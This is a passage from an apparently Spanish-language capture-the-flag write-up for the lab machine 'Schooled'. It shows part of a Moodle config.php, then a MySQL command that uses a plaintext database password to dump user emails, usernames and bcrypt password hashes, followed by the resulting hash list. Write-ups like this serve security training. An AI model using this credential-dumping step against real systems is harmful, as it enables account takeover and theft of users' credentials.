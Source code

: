 ```
);

$CFG->wwwroot   = 'http://moodle.schooled.htb/moodle';
$CFG->dataroot  = '/usr/local/www/apache24/moodledata';
$CFG->admin     = 'admin';

$CFG->directorypermissions = 0777;

require_once(__DIR__ . '/lib/setup.php');

// There is no php closing tag in this file,
// it is intentional because it prevents trailing whitespace problems!
```

`Dumpeamos` las `contraseñas` de la `base` de `datos`

```
[www@Schooled /home]$ /usr/local/bin/mysql -u moodle --password=PlaybookMaster2020 -e "use moodle; select email,username,password from mdl_user; exit"
mysql: [Warning] Using a password on the command line interface can be insecure.
email	username	password
root@localhost	guest	$2y$10$u8DkSWjhZnQhBk1a0g1ug.x79uhkx/sa7euU8TI4FX4TCaXK6uQk2
jamie@staff.schooled.htb	admin	$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW
bell_oliver89@student.schooled.htb	bell_oliver89	$2y$10$N0feGGafBvl.g6LNBKXPVOpkvs8y/axSPyXb46HiFP3C9c42dhvgK
orchid_sheila89@student.schooled.htb	orchid_sheila89	$2y$10$YMsy0e4x4vKq7HxMsDk.OehnmAcc8tFa0lzj5b1Zc8IhqZx03aryC
chard_elizabeth89@student.schooled.htb	chard_ellzabeth89	$2y$10$D0Hu9XehYbTxNsf/uZrxXeRp/6pmT1/6A.Q2CZhbR26lCPtf68wUC
morris_jake89@student.schooled.htb	morris_jake89	$2y$10$UieCKjut2IMiglWqRCkSzerF.8AnR8NtOLFmDUcQa90lair7LndRy
heel_james89@student.schooled.htb	heel_james89	$2y$10$sjk.jJKsfnLG4r5rYytMge4sJWj4ZY8xeWRIrepPJ8oWlynRc9Eim
nash_michael89@student.schooled.htb	nash_michael89	$2y$10$yShrS/zCD1Uoy0JMZPCDB.saWGsPUrPyQZ4eAS50jGZUp8zsqF8tu
singh_rakesh89@student.schooled.htb	singh_rakesh89	$2y$10$Yd52KrjMGJwPUeDQRU7wNu6xjTMobTWq3eEzMWeA2KsfAPAcHSUPu
taint_marcus89@student.schooled.htb	taint_marcus89	$2y$10$kFO4L15Elng2Z2R4cCkbdOHyh5rKwnG4csQ0gWUeu2bJGt4Mxswoa
walls_shaun89@student.schooled.htb	walls_shaun89	$2y$10$EDXwQZ9Dp6UNHjAF.ZXY2uKV5NBjNBiLx/WnwHiQ87Dk90yZHf3ga
smith_john89@student.schooled.htb	smith_john89	$2y$10$YRdwHxfstP0on0Yzd2jkNe/YE/9PDv/YC2aVtC97mz5RZnqsZ/5Em
white_jack89@student.schooled.htb	white_jack89	$2y$10$PRy8LErZpSKT7YuSxlWntOWK/5LmSEPYLafDd13Nv36MxlT5yOZqK
travis_carl89@student.schooled.htb	travis_carl89	$2y$10$VO/MiMUhZGoZmWiY7jQxz.Gu8xeThHXCczYB0nYsZr7J5PZ95gj9S
mac_amy89@student.schooled.htb	mac_amy89	$2y$10$PgOU/KKquLGxowyzPCUsi.QRTUIrPETU7q1DEDv2Dt.xAjPlTGK3i
james_boris89@student.schooled.htb	james_boris89	$2y$10$N4hGccQNNM9oWJOm2uy1LuN50EtVcba/1MgsQ9P/hcwErzAYUtzWq
pierce_allan89@student.schooled.htb	pierce_allan	$2y$10$ia9fKz9.arKUUBbaGo2FM.b7n/QU1WDAFRafgD6j7uXtzQxLyR3Zy
henry_william89@student.schooled.htb	henry_william89	$2y$10$qj67d57dL/XzjCgE0qD1i.ION66fK0TgwCFou9yT6jbR7pFRXHmIu
harper_zoe89@student.schooled.htb	harper_zoe89	$2y$10$mnYTPvYjDwQtQuZ9etlFmeiuIqTiYxVYkmruFIh4rWFkC3V1Y0zPy
wright_travis89@student.schooled.htb	wright_travis89	$2y$10$XFE/IKSMPg21lenhEfUoVemf4OrtLEL6w2kLIJdYceOOivRB7wnpm
allen_matthew89@student.schooled.htb	allen_matthew89	$2y$10$kFYnbkwG.vqrorLlAz6hT.p0RqvBwZK2kiHT9v3SHGa8XTCKbwTZq
sanders_wallis89@student.schooled.htb	sanders_wallis89	$2y$10$br9VzK6V17zJttyB8jK9Tub/1l2h7mgX1E3qcUbLL.GY.JtIBDG5u
```